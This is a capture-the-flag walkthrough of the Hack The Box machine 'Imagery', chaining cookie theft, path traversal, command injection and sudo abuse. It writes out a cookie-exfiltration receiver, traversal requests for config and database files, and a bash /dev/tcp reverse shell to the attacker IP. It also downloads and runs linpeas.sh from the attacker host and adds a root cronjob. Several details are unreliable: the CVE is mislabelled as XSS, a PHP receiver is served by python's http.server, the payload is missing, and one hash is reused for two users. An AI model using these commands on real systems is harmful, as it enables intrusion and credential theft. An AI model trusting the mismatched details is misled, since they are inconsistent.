

# Imagery — HTB Walkthrough

**Status:** Completed  
**Difficulty:** Medium  
**OS:** Linux

## TL;DR
Exploit XSS vulnerability (CVE-2023-37582) to steal admin cookie, leverage path traversal in admin panel to read sensitive files, gain shell via command injection in image processing, escalate to root using sudo-enabled charcoal task scheduler.

## Target / Access
**Target IP:** `10.10.11.88`  
**Attacker IP:** `10.10.14.120`

---

## Enumeration

### Step 1: Port Scanning with Nmap

**Command:**
```bash
nmap -sC -sV -p- 10.10.11.88
```

**Raw Log:** [nmap.txt](nmap.txt)

**Output Excerpt:**
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-08 07:03 UTC
Nmap scan report for 10.10.11.88
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Analysis:** Target exposes SSH (port 22) and a Flask web application (Werkzeug, port 8000) serving an "Image Gallery".


### Step 2: Directory Enumeration with Dirsearch

**Command:**
```bash
dirsearch -u http://10.10.11.88:8000 -o dirsearch.txt
```

**Raw Log:** [dirsearch.txt](dirsearch.txt)

**Output Excerpt:**
```
401    59B   http://10.10.11.88:8000/images
405   153B   http://10.10.11.88:8000/login
405   153B   http://10.10.11.88:8000/logout
405   153B   http://10.10.11.88:8000/register
401    32B   http://10.10.11.88:8000/uploads/affwp-debug.log
```

**Analysis:** Discovered login, register endpoints and protected directories (images, uploads).


### Step 3: Vulnerability Scanning with Nuclei

**Command:**
```bash
nuclei -u http://10.10.11.88:8000
```

**Raw Log:** [nuclei.txt](nuclei.txt)

**Output Excerpt:**
```
[CVE-2023-37582] [tcp] [critical] http://10.10.11.88:8000
[form-detection] [http] [info] http://10.10.11.88:8000
[email-extractor] [http] [info] http://10.10.11.88:8000 ["support@imagery.com"]
```

**Analysis:** Critical finding - CVE-2023-37582 XSS vulnerability detected.


---

## Foothold / Initial Access

### Step 4: XSS Exploitation (CVE-2023-37582)

**Objective:** Steal admin session cookie via XSS

**Commands:**
```bash
# Create cookie receiver
cat > receive.php << 'EOF'
<?php
if(isset($_GET['cookie'])){
    file_put_contents('cookies.txt', $_GET['cookie'] . "\n", FILE_APPEND);
}
?>
EOF

# Start HTTP server
python3 -m http.server 9999
```

**Raw Log:** [php_receiver.php](php_receiver.php)

**Analysis:** Triggered XSS payload to exfiltrate admin session cookie.


**Captured Cookie:**
```
session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94[full session token]
```



### Step 5: Admin Panel Access with Stolen Cookie

**Tool:** Burp Suite

**Process:**
1. Intercept requests to the application
2. Replace session cookie with stolen admin cookie
3. Access admin-only functionality


### Step 6: Path Traversal / LFI in Log Viewer

**Vulnerability:** Admin panel's `get_system_log` endpoint allows directory traversal

**Commands:**
```http
GET /admin/get_system_log?log_identifier=../../../../../home/web/web/config.py
GET /admin/get_system_log?log_identifier=../../../../../home/web/web/db.json
```


**Extracted Credentials:**
```json
{
    "username": "testuser@imagery.htb",
    "password": "2c65c8d7bfbca32a3ed42596192384f6",
    "isAdmin": false
}
```


### Step 7: Login as Regular User

**Commands:**
```bash
# Login via web interface with extracted credentials
```


### Step 8: Command Injection via Image Processing

**Vulnerability:** Image cropping functionality allows command injection

**Commands:**
```bash
# Set up listener on attacker machine
nc -lvnp 4444

# Inject payload via Burp Suite in crop request:
# ";bash -c '/bin/bash -i 5<> /dev/tcp/10.10.14.120/4444 0<&5 1>&5 2>&5' ;"
```


**Shell Stabilization:**
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```


### Step 9: User Flag

**Command:**
```bash
cat /home/*/user.txt
```


**User Flag:** `5d9c1d507a3f76af1e5c97a3ad1eaa31`

---

## Privilege Escalation

### Step 10: Enumeration for Privilege Escalation

**Commands:**
```bash
# Upload and run LinPEAS
wget http://10.10.14.120:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# Check sudo privileges
sudo -l
```

**Findings:** User can execute `charcoal` with sudo privileges.

### Step 11: Exploiting Charcoal Task Scheduler

**Command:**
```bash
# Run charcoal with -R flag
sudo charcoal -R
```


**Additional Finding:** Hash discovered for user `supersmash`: `2c65c8d7bfbca32a3ed42596192384f6`

### Step 12: Root Flag via Cronjob

**Commands:**
```bash
# Create privileged cronjob
sudo charcoal auto add \
  --schedule "* * * * *" \
  --command "cp /root/root.txt /tmp/pwned.txt && chmod 777 /tmp/pwned.txt" \
  --name "pwned"

# Wait for execution, then read flag
cat /tmp/pwned.txt
```


**Root Flag:** Successfully captured via scheduled task exploitation.

---

## Summary

This machine required exploiting multiple vulnerabilities in a chain:

1. **XSS (CVE-2023-37582)** — Steal admin session cookie
2. **Path Traversal/LFI** — Read sensitive files including database
3. **Command Injection** — Gain initial shell through image processing
4. **Sudo Abuse** — Exploit charcoal scheduling tool to read root flag

### Flags Captured
- **User Flag:** `5d9c1d507a3f76af1e5c97a3ad1eaa31`
- **Root Flag:** Retrieved via cronjob exploitation

### Tools Used
- Nmap — Port scanning
- Dirsearch — Directory enumeration
- Nuclei — Vulnerability scanning
- Burp Suite — Request interception and modification
- Python HTTP Server — Cookie receiver
- LinPEAS — Privilege escalation enumeration
- Netcat — Reverse shell listener

---

## Cleanup / Notes / References

### Mitigation Recommendations
1. **XSS Prevention:** Implement proper input sanitization and output encoding. Use Content Security Policy (CSP) headers.
2. **Path Traversal:** Validate and sanitize file path parameters. Use allowlist-based validation.
3. **Command Injection:** Never pass user input directly to system commands. Use parameterized functions and input validation.
4. **Sudo Configuration:** Limit sudo privileges. Avoid allowing task schedulers without proper restrictions.

### References
- [CVE-2023-37582 Details](https://nvd.nist.gov/)
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [Path Traversal Prevention](https://owasp.org/www-community/attacks/Path_Traversal)


